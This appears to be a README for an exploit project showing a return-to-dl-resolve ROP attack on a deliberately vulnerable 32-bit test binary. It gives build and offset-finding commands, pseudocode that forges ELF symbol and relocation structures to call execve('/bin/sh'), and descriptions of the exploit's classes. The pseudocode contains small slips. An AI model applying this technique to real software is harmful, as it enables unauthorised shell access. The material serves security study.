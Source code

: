 How to test
===========

1. Build vuln.c

    gcc -fno-stack-protector ../vuln.c -o /tmp/vuln -m32 -O2

2. Find the offset of the saved IP

    ruby19 "$METASPLOIT/tools/pattern_create.rb" 256 | /tmp/vuln
    dmesg | tail
    ruby19 "$METASPLOIT/tools/pattern_offset.rb" $SEGFAULT_IP

3. Launch the attack with the desired parameter

    (python ./exploit.py /tmp/vuln $OFFSET; echo ls) | /tmp/vuln

Basic idea
==========

char *buffer = .bss;
char *new_stack = buffer + 1024;
int *rubbish = new_stack + 4;

strcpy(buffer, "execve");
  *((int *) buffer) = 'exec';
  *(((int *) buffer) + 1) = 've\0\0';
char *name = buffer;
buffer += strlen(buffer) + 1;

Elf32_Sym *symbol = (Elf32_Sym *) buffer;
symbol->st_name = name - .dynstr;
symbol->st_value = 0;
symbol->st_info = 0;
symbol->st_other = 0;
symbol->st_shndx = 0;
buffer += sizeof(*symbol);

Elf32_Rel *reloc = (Elf32_Rel *) buffer;
reloc->r_offset = rubbish++;
reloc->r_info = (R_386_JUMP_SLOT | (symbol - .dynsym) / sizeof(symbol));
buffer += sizeof(reloc):

pre_plt((reloc - .rel.plt) / sizeof(Elf32_Rel));

Helper classes
==============

* `MemoryArea`: data structure representing a part of memory, with its
  start address, its size, a reference to what its relative to
  (e.g. the `MemoryArea` where we'll write the relocation structure
  will be relative to the `.rela.dyn` section).
* `Buffer`: data structure holding information about a buffer where we
  want to write to things. Typically this will represent to
  `.bss`. Buffer also keeps track of what part of it has already been
  allocated (`Buffer.current` points to the next free location) and
  allows to allocate new `MemoryArea`s with the appropriate
  alignement.

Exploit-derived classes
=======================

* `Exploit`: the base class, contains all the architecture- and
  platform-independent parts of the exploit. It keeps the list of the
  gadgets, it takes care of collecting all the interesting information
  about the program from the ELF file and abstracting some utility and
  memory-related functions (e.g. `write_pointer` and `write_string`)
  which rely on the abstract `do_writemem` function (which is
  platform- and program-dependent). Finally, in `jump_to`, contains
  the core logic for setting up the necessary data structures in the
  buffers.
* `CommonGadgetsExploit`: inherits from `Exploit` and introduces
  architecture-dependent parts, in particular gadgets and
  function-invocation logic.
* `ExecveExploit`: very simple class implementing the logic to launch
  an `execve`, so write a NULL pointer, a "/bin/sh\0" and explicitly
  look for `execve`. Finally invoke it.
